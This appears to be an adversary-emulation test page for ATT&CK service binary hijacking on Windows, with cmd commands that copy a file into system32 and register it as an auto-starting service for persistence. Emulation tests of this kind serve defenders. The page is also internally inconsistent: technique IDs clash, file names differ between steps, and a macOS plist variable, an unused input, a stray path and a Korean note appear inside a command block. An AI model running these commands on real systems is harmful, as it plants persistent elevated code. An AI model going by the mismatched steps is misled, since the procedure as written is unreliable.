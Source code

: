 #A1574.010 - Service File Permissions Weakness
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1574/001)
<blockquote>Adversaries may execute their own malicious payloads by hijacking the binaries used by services. Adversaries may use flaws in the permissions of Windows services to replace the binary that is executed upon service start. These service processes may automatically execute specific binaries as part of their functionality or to perform other actions. If the permissions on the file system directory containing a target binary, or permissions on the binary itself are improperly set, then the target binary may be overwritten with another binary using user-level permissions and executed by the original process. If the original process and thread are running under a higher permissions level, then the replaced binary will also execute under higher-level permissions, which could include SYSTEM.

Adversaries may use this technique to replace legitimate binaries with malicious ones as a means of executing code at a higher permissions level. If the executing process is set to run at a specific time or during a certain event (e.g., system bootup) then this technique can also be used for persistence.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Replace System Service File](#atomic-test-1---Replace-System-Service-File)


<br/>

## Atomic Test #1 - Replace System Service File
The attacker looks for legacy driver services that are disabled and replaces legitimate executables.
Set persistence by setting such hijacked services to start automatically.

**Supported Platforms:** Windows

#### Inputs:
| Name         | Description            | Type   | Default Value   |
| ------------ | ---------------------- | ------ | --------------- |
| service_name | legacy driver services | string | UevAgentService |
| local_file | File path for data | String | PathToAtomicsFolder&#92;1574.001&#92;src&#92;a1574.dat|

<br/>


C:\WINDOWS\system32\AgentService.exe
#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
copy #{local_file} C:\WINDOWS\system32\a1574.001.exe
sc config T1574.001 start=auto
```

#### Cleanup Commands:
```cmd
del C:\WINDOWS\system32\a1574.001.exe
```

#### Dependencies:  Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
##### Description: The shared library must exist on disk at specified location (#{path_malicious_plist})
##### Check Prereq Commands:
```cmd
1. sc query T1574.001
2. State STOPPED 확인
```
##### Get Prereq Commands:
```cmd
1. copy #{local_file} C:\WINDOWS\system32\a1574.exe
2. sc create T1574.001 binPath= "C:\WINDOWS\system32\a1574.001.exe"
3. sc.exe stop #{service_name} >nul 2>&1
```




<br/>
